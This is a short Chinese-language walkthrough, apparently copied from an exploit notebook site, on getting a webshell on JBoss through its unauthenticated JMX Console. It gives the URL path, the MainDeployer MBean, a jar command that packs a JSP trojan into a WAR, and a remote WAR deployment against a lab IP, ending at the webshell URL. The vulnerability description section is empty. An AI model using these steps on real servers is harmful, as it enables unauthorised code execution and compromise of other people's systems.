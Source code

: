 # JMX Console 未授权访问 Getshell

> 原文：[http://book.iwonder.run/0day/Jboss/JMX Console 未授权访问 Getshell.html](http://book.iwonder.run/0day/Jboss/JMX Console 未授权访问 Getshell.html)

## 一、漏洞简介

## 二、漏洞影响

全版本

## 三、复现过程

先输入[http://172.26.1.167:8080/jmx](http://172.26.1.167:8080/jmx-console/)-console/[null](http://172.26.1.167:8080/jmx-console/)[-console/](http://172.26.1.167:8080/jmx-console/)进入到页面

*   先点击[jboss.system](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=displayMBeans&filter=jboss.system),然后点击[service=MainDeployer](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system%3Aservice%3DMainDeployer)

![image](img/467f7b63f1707cc22cebce78c1efdde2.png)

> 创建一个 war 包

先准备好一个 jsp 的木马,然后打开 cmd 创建,输入命令:jar -cvf zfsn.war(你要创建 war 的名字，可随意填) zfsn. jsp

![image](img/6f7fdfe7fbf2ef8a79942e0ddf75a5fe.png)

我们找到 methodIndex 为 17 or 19 的 deploy，把远程的 war 包填入进去，进行远程 war 包的部署

![image](img/ddfae3128831fd2eb7c63472908d7453.png)

部署完成之后,我们的木马地址为[http://172.26.1.167/zfsn/zfsn.jsp](http://172.26.1.167/zfsn/zfsn.jsp)

![image](img/a7269fe899d3320843c5e5a1439e0115.png)

